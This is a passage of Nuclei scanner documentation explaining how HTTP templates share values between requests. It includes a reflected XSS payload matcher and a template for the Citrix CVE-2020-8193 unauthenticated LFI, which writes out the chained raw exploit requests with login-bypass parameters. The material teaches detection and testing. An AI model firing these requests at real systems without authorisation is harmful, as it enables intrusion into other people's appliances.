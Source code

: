 ```
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'

```


Advanced HTTP

Value Sharing
=============

Learn about sharing values between HTTP requests in the HTTP template.

[​](#http-value-sharing)HTTP Value Sharing
------------------------------------------

In Nuclei, It is possible to extract value from one HTTP request and share/reuse it in another HTTP request. This has various use-cases like login, CSRF tokens and other complex.

This concept of value sharing is possible using [Dynamic Extractors](/templates/reference/extractors#dynamic-extractor). Here’s a simple example demonstrating value sharing between HTTP requests.

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
```